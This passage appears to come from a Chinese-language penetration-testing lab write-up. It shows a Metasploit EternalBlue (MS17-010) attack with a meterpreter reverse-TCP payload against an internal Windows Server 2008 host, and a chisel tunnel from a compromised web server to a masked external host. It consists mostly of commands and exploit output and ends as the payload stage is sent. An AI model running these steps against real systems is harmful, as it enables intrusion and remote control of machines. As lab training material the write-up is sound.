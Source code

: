 ## 172.22.15.24 MS17-010

直接使用 Metasploit 进行攻击

```shell
root@jmt-projekt:~# proxychains4 -q msfconsole -q
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.22.15.26
LHOST => 172.22.15.26
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 8888
LPORT => 8888
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 172.22.15.24
RHOST => 172.22.15.24
```

:::warning

怀疑内部靶机不具有出网条件，需要提前建立端口转发

:::

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 8888:8888 &
[2] 3483
2024/07/26 15:10:45 client: Connecting to ws://139.*.*.*:1337
2024/07/26 15:10:45 client: tun: proxy#8888=>8888: Listening
2024/07/26 15:10:45 client: Connected (Latency 44.294711ms)
```

开始攻击

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[-] Handler failed to bind to 172.22.15.26:8888:-  -
[*] Started reverse TCP handler on 0.0.0.0:8888
[*] 172.22.15.24:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 172.22.15.24:445      - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 172.22.15.24:445      - Scanned 1 of 1 hosts (100% complete)
[+] 172.22.15.24:445 - The target is vulnerable.
......
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 22 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 127.0.0.1
```